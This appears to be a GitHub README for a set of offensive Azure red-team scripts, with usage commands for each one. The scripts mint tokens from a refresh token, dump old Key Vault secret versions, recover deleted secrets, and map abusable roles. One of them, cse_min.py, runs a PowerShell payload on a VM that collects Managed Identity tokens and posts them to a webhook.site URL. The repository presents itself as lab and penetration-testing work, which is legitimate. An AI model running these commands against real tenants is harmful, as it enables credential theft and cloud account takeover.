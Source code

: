 # 🔓 azure-insecurity-tools

**A growing collection of offensive Azure tools and scripts** designed to support cloud red teaming, lab work, and deep exploration of Microsoft cloud internals.

---

## 📦 What's Inside

This repo will evolve as I learn more about attacking Azure. The focus is hands-on, practical tooling for real-world and lab scenarios.

### ✅ Initial Tool: `token_multiplexer.py`

Use a single `refresh_token` to mint multiple `access_token`s across different Azure resource scopes (Graph, Key Vault, ARM, etc).

#### Features
- Exchanges refresh tokens for any `.default` scoped resource
- Decodes JWT and extracts `aud`, `scp`, and `exp` claims
- Built as a CLI for flexible reuse
- Useful in phishing/OAuth abuse scenarios like AzRTE labs

#### Example Usage

```bash
python token_multiplexer.py \
  --refresh-token "<paste_here>" \
  --client-id "your-app-client-id" \
  --client-secret "your-app-client-secret" \
  --scope "https://vault.azure.net/.default"
```

### 🔑 kv-dump-old-versions.py — Enumerate and Dump Azure Key Vault Secret Versions

This script enumerates secrets in Azure Key Vaults and retrieves all available versions, including old values that might remain after rotation.

Features
-	Works on a single vault or all vaults in a subscription.
-	Dumps all secret versions with flags for which one is latest.
-	Supports table view (human-friendly) and JSON output (machine-friendly).
-	Flags old values that differ from the latest version.

#### Usage
```bash
# Enumerate all vaults in a subscription
python3 kv-dump-old-versions.py --subscription-id <subscription-id>

# Target a specific vault and output as JSON
python3 kv-dump-old-versions.py --vault kv-1-2e693029 --output json
```

### 🔢 kv-rsa-decrypt.py
Tries common RSA algs against a given Key Vault key ID. Uses az under the hood to leverage existing logon.

#### Usage
```bash
python3 kv-rsa-decrypt.py \
  --key-id "https://kv-2-xxxx.vault.azure.net/keys/key-2-xxxx/<version>" \
  --ciphertext-b64 "G067ensX6Zgz...=="  # full base64 blob
# or force a specific algo:
python3 kv-rsa-decrypt.py --key-id ... --ciphertext-b64 ... --algo RSA-OAEP
```

### 🗑️ kv-recover-deleted.py
List+recover deleted secrets for a vault

#### Usage
```bash
python3 kv-recover-deleted.py --vault kv-3-2e693029
python3 kv-recover-deleted.py --vault kv-3-2e693029 --recover-all
```

### 🔍 role-attack-surf.py
-	Lists your role assignments at a given scope (vault/RG/subscription)
-	Pulls each role definition
-	Flags interesting Actions/DataActions (stuff that tends to be abusable)
-	Prints a summary + optional JSON
-	Suggests quick exploits (e.g., set-policy when it sees accessPolicies/write)

#### Usage
```bash
# At a vault scope (like your lab)
python3 role-attack-surf.py \
  --scope "/subscriptions/<sub>/resourceGroups/key-vault-labs/providers/Microsoft.KeyVault/vaults/<vault>""

# Filter to your SP only (faster to read)
python3 role-attack-surf.py \
  --scope "/subscriptions/<sub>/resourceGroups/key-vault-labs/providers/Microsoft.KeyVault/vaults/<vault>" \
  --assignee <client_id>

# Dump full JSON too
python3 role-attack-surf.py --scope "/subscriptions/<sub>" --json
```

### ﹟psenc.py
Output Powershell-read -EncodedCommand string given a file, command, or stdin

#### Usage
```bash
# direct command
python3 psenc.py -c 'Write-Host "Hello from Mac!"' --print-example

# from a file
python3 psenc.py -f payload.ps1 > encoded.txt

# from stdin (handy in pipelines)
echo '$PSVersionTable.PSVersion' | python3 psenc.py --stdin
```

### 🕸️ cse_min.py
Trigger the Azure CustomScriptExtension on a Windows VM to run a PowerShell payload that collects Managed Identity tokens (ARM + Key Vault) and exfiltrates them to a specified webhook.

#### Usage
```bash
# basic usage (System-Assigned MI)
python3 cse_min.py -g <resource-group> -n <vm-name> -w https://webhook.site/<uuid>

# with User-Assigned Managed Identity client ID
python3 cse_min.py -g <resource-group> -n <vm-name> \
    -w https://webhook.site/<uuid> \
    --uami <user-assigned-mi-client-id>

# dry run (show PowerShell and encoded command without sending)
python3 cse_min.py -g <resource-group> -n <vm-name> -w <webhook-url> --show
```

This will:
	1.	Build the PowerShell payload to grab ARM + Key Vault access tokens via IMDS.
	2.	Encode it to UTF-16LE Base64 for -EncodedCommand execution.
	3.	Deploy it to the target VM via Azure CLI az vm extension set with CustomScriptExtension.
	4.	POST results to the given webhook.


⚠️ Disclaimer

For educational and lab use only.

Do not use these tools without explicit permission. They are intended to support self-hosted labs, CTF environments, and ethical security testing.
